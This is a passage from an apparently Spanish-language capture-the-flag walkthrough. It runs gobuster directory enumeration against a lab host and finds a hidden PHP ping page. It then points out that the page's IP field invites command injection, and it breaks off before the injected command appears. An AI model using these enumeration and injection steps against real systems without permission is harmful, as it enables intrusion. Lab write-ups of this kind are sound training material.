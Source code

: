 ```shell
gobuster dir -u http://<IP>/ -w fuzz.txt -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.19.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/d05notfound          (Status: 200) [Size: 960]
Progress: 52 / 56 (92.86%)
===============================================================
Finished
===============================================================
```

Vemos que hay coincidencia con una y si lo metemos en la URL de la siguiente forma.

```
URL = http://<IP>/d05notfound/
```

Veremos un archivo llamado `d05notfound.php` por lo que nos meteremos en el y veremos otra pagina en la que hay mucha informacion, pero si bajamos a bajo del todo, veremos algo interesante, donde pone `Introduzca la dirección IP`, si ponemos hay nuestra IP o la que sea va a realizar un ping, pero no se va a ver en la pagina tendremos que darle a inspeccionar codigo y veremos los resultados del ping.

```
PING 192.168.5.145 (192.168.5.145) 56(84) bytes of data.
64 bytes from 192.168.5.145: icmp_seq=1 ttl=64 time=0.057 ms
64 bytes from 192.168.5.145: icmp_seq=2 ttl=64 time=0.050 ms
64 bytes from 192.168.5.145: icmp_seq=3 ttl=64 time=0.042 ms
64 bytes from 192.168.5.145: icmp_seq=4 ttl=64 time=0.044 ms

--- 192.168.5.145 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3078ms
rtt min/avg/max/mdev = 0.042/0.048/0.057/0.005 ms
```

Pero mas abajo poner `resultados de comando:` por lo que da pie a que puedes concatenar comandos, probaremos a introducir el siguiente comando.
